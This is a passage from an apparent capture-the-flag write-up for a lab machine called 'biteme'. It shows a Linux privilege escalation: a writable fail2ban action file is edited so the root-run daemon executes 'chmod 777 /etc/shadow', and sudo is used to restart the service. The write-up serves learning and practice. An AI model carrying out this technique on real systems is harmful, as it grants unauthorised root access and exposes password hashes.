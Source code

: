 We can issue any commands as `fred`. Let's change to fred's account and enumerate the same things from their account:

```zsh 
jason@biteme:~$ sudo -u fred /bin/bash
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
``` 

Interesting. fred can use their **sudo** rights to restart the **fail2ban** service. This can probably be exploited somehow.

By doing a bit of external research, we found [a brilliant writeup](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/) by **Grumpy Geek** of using **fail2ban** rules to escalate **Linux** privileges: 

The gist of the exploit is that if a low-level user has write access to `/etc/fail2ban/action.d/iptables-multiport.conf` file containing **fail2ban** rules, the **fail2ban** daemon running as `root` can execute any commands set in the conf file. Let's check if we have access:

```zsh 
fred@biteme:~$ ls -lpah /etc/fail2ban/action.d/iptables-multiport.conf
-rw-r--r-- 1 fred root 1.4K Nov 13 13:38 /etc/fail2ban/action.d/iptables-multiport.conf
``` 

Not only do we have write access, the file itself is owned by us! Or fred, rather. As per **Grumpy Geek**'s writeup, we can now add any command to the "`actionban`" variable, and have it executed when someone tries to bruteforce **SSH**. The easy route is just to change the holy grail of **Linux** privilege files, `/etc/shadow`, to be readable and writable for everyone. `/etc/shadow` contains the users and password hashes of any **Linux** system, and write access to it means we can set any password for any user, including `root`.

```zsh 
fred@biteme:~$ nano /etc/fail2ban/action.d/iptables-multiport.conf

<snipped for space>
#
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = chmod 777 /etc/shadow

# Option:  actionunban
<snipped for space>
``` 

Let's save the file and restart the **fail2ban** service for the changes to take effect.

```zsh 
fred@biteme:~$ sudo /bin/systemctl restart fail2ban
``` 

Checking `/etc/shadow` permissions before the rule is activated:

```zsh 
fred@biteme:~$ ls -lpah /etc/shadow
-rw-r----- 1 root shadow 954 Nov 13 17:18 /etc/shadow
``` 
